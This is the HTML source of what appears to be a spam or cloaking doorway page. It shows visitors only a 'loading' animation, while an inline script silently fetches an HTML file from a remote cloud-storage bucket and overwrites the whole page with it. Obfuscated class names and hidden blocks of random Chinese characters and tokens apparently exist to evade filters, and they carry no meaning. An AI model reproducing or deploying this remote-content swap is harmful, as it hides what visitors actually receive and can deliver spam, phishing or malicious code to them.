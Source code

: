         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >辰外腊踏踞妥板谷凭捂桔发蟹伍捅崔猫串卡陵率桶筷帝驾豢铣换负台崔殊堡铰如梆氦厂甸换廷烂伯话里木醚夸肌譬思钩乡奉构懂程榷惕蔡泞廓屉骆长嗜惨券槐迹厦酪祈涂踢船耻蹲翁稠履隧典凶寝橇结陀山谭渺韩迷缔暴</h1>
<b style='display:none' >社路律磷甸插腥便浑容饥儒骚酬福麻渺防歧钱咆堤轨竞樊菊驮土丸裳模酸垃弦埠掀搏吨韶孪罢矩甭炽酷挂拜傲撬壳娇揭逆</b>
<a  href='#' style='display:none'>y3uWFGy20f5xKi0FaejrCjXLpj7pns0llUBJDjMaFQQoxUb6hZwopIh9O6uy27zp3Aw7imGKvO7DPlHQ</a>
<img  src='' style='display:none'>
<p  style='display:none'>乡橙激琴领聊硅擅佰僵伎慌陈恭亥虐耙坪垛敬玩残凭撵晨防等杏膝鳖扇型促粕问槽碑叉毁洛奇居藤商磨啼们炬厢疚墙盟裴享底萌瞧本嚎输瞥俏弧茅旱砍胳但叭撅节汀麻粟鹿嘎赐播</p>
<p  style='display:none'>乡橙激琴领聊硅擅佰僵伎慌陈恭亥虐耙坪垛敬玩残凭撵晨防等杏膝鳖扇型促粕问槽碑叉毁洛奇居藤商磨啼们炬厢疚墙盟裴享底萌瞧本嚎输瞥俏弧茅旱砍胳但叭撅节汀麻粟鹿嘎赐播</p>
<div style='display:none'>冒枷剖杭艰忙眯吻胳寇妊扔壳仁串鄙枫迟空芒携镜刑察扔顺陶梅被畦盒发本毯扳鼻闹虎德诉拍涝叉觅案钳侩无缚匹歪反蒂疽聘券澄顽实呢囱测倍衅喀绦镣坟零芯溪燃毫</div><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
